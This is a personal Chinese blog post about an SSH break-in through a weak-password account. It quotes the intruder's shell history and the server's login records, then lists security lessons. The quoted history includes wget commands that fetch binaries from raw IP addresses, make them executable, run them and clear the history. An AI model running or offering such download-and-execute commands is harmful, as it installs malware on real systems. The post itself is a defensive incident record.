 title: "服务器被黑了!"
date: 2015-04-14 00:01:27
tags:
  - 被黑了
  - 服务器日志
categories: Server/Log
keywords:
  - Pandorabox
  - Hacked
  - 渣渣
  - Arylo
  - Lintel
---

> 20150413 11:15PM, 准备睡觉的时候, lintel大大打给我说, 服务器上传流量异常.

# 我是那个时刻准备着(误)的三好程序猿
作为一个门口埋好地雷, 深夜三分钟即时上线的程序员, 立刻打开那台慢到掉渣的手提, 来处理这事.

既然有上传, 就是说程序还在运行中, 而且这服务器还没有开始正式投入, 负载不高, 稍微`top`一下就发现一个叫`prfos`的程序在跑.
查了一下, 是git用户运行它的.
遭了, 那是调试用, 所以随便弄了个弱密码, 现在被别人弄进来了....哎..我的错

# 他干了什么?
我跳到`/home/git`目录, 发现`.bash_history`还在, 天助我也!!

## 这是他执行的命令

```
su arylo
w
cat /proc/cpuinfo
ls
w
cat /proc/cpuinfo
ls
ps -x
uname -a
ss
cd //tmp
wget http://122.224.32.6:5547/prfos
wget http://183.60.110.3:6219/netns
chmod 7777 ./netns
./netns
chmod 7777 ./prfos
./prfos
cat /dev/null > ./.bash_history
```

看到第一句, 我还是蛮开心的, 至少我的密码没有被破解, 估计他觉得和git一样是弱密码,
后面的基本不用说了, 下载木马, 运行它们.
但有一句让我哭笑不得的命令出现了
`cat /dev/null > ./.bash_history`
我不知道说他是小菜鸟还是粗心什么的, 竟然可以出现这样的失误...导致我看到以上这些命令

## 停止它吧
好了, 竟然知道运行了什么, 就搜一搜怎样消灭他呗
可是无论是谷娘还是度娘, 但就是没有相关杀除的信息, 是毒性不强的问题吧?
```
arylo@localhost:/tmp$ ps -A|grep prfos
20244 ?        00:57:31 prfos
arylo@localhost:/tmp$ ps -A|grep netns
   12 ?        00:00:00 netns
20219 ?        00:00:10 netns
```
只好手动rm他们, 再kill一下他们, 并祈祷不要再运行了

PS.主要是git用户运行的程序不多, 所以基本可以找到那个是有问题的

# 还有谁

```
arylo@localhost:/proc$ last
lintel   pts/1        li406-14.members Mon Apr 13 15:54   still logged in
arylo    pts/0        183.37.34.131    Mon Apr 13 15:06   still logged in
git      pts/0        58.46.18.253     Mon Apr 13 04:54 - 04:54  (00:00)
test     pts/0        113.98.255.48    Sun Apr 12 23:32 - 23:32  (00:00)
git      pts/0        114.112.54.22    Sun Apr 12 19:48 - 20:00  (00:11)
test     pts/0        192.3.159.181    Sat Apr 11 18:04 - 18:04  (00:00)
test     pts/0        27.112.8.214     Sat Apr 11 12:51 - 12:51  (00:00)
test     pts/0        li610-201.member Fri Apr 10 16:09 - 16:09  (00:00)
git      pts/0        198.23.132.34    Fri Apr 10 11:51 - 11:51  (00:00)
test     pts/0        f499.fuchsia.fas Thu Apr  9 04:54 - 04:54  (00:00)
test     pts/0        195.154.165.112  Wed Apr  8 13:36 - 13:36  (00:00)
test     pts/0        c099-250.cloud.g Tue Apr  7 09:17 - 09:17  (00:00)
test     pts/0        113.98.255.48    Mon Apr  6 16:35 - 16:35  (00:00)
test     pts/0        176.111.32.9     Mon Apr  6 14:54 - 14:54  (00:00)
arylo    pts/0        14.157.176.72    Sat Apr  4 06:40 - 14:00  (07:19)
arylo    pts/0        183.37.30.83     Fri Apr  3 16:52 - 20:12  (03:19)
arylo    pts/1        li729-87.members Fri Apr  3 10:17 - 10:34  (00:17)
arylo    pts/0        li729-87.members Fri Apr  3 09:24 - 10:20  (00:56)
arylo    pts/0        li729-87.members Fri Apr  3 09:13 - 09:24  (00:10)
arylo    pts/0        li729-87.members Fri Apr  3 09:11 - 09:13  (00:01)
arylo    pts/0        li729-87.members Fri Apr  3 08:47 - 09:08  (00:21)
git      pts/0        bolobolo1.torser Thu Apr  2 13:47 - 13:47  (00:00)
git      pts/0        tor.scenehoster. Thu Apr  2 13:19 - 13:20  (00:00)
```

为了保证以后的不再出现这种事情, last了一下,
精了Σ( ° △ °|||)︴
竟然这么多, IP都搜一下, 好像都是肉鸡, 好在没有对这服务器做什么...
除了git, 还有test, 都是弱密码的主...还是我的（﹀＿﹀）

# 总结

总结一下这件事所暴露的问题和解决方法
> Q: SSH一下被人登上了（┬＿┬）
> A: 改SSH的端口, 保证安全性
>
> Q: 弱密码惹的祸
> A: 以后不能这样了, 内部的都要改一下
>
> Q: 竟然被人运行了程序
> A: 以后真的要分配好权限...test用户给人跑进来了, 不过设置了`nologin`, 所以没事
> A: 还有还有, 以后真的一用户一类程序比较好
> A: 定期更新密码说不定是个好方法?
